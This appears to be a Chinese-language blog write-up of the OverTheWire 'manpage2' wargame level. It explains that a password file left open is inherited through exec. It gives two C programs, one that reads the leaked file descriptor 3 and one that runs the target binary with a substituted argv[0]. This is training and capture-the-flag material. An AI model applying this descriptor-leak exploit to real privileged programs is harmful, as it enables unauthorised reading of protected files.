```yaml
---
title: manpage2
author: rk700
layout: post
tags: 
  - OverTheWire
  - exploit
---
```

问题出在，密码文件打开之后没有关闭，而fd是可以从exec继承的。于是我们先写一个读文件内容的程序 

{% highlight c %}
#include <unistd.h>

int main () {
    char buf[64];
    lseek(3, 0, SEEK_SET);
    ssize_t num;
    while((num=read(3,buf,sizeof buf)) > 0)
        write(STDOUT_FILENO, buf, num);
    return 0;
}
{% endhighlight %}

这里fd是3因为打开的密码文件的fd应该是接着0,1,2

然后执行manpage2的程序，让argv[0]为我们的读密码程序 

{% highlight c %}
#include <unistd.h>

int main (int argc, char *args[]) {
    execl("/manpage/manpage2", "./getPass", NULL);
}
{% endhighlight %}
